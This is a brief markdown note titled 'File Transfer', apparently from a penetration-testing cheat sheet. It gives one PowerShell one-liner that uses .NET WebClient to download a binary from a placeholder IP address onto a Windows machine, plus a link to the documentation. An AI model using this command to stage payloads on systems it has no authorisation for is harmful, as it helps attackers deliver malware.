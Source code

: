 ```yaml
---
title: File Transfer
author: i4
date: M01-10-2023
---
```


Implemented .NET classes: [Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.net?view=netframework-4.7.2)

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/bin.exe','C:\temp\binary.exe')"
```



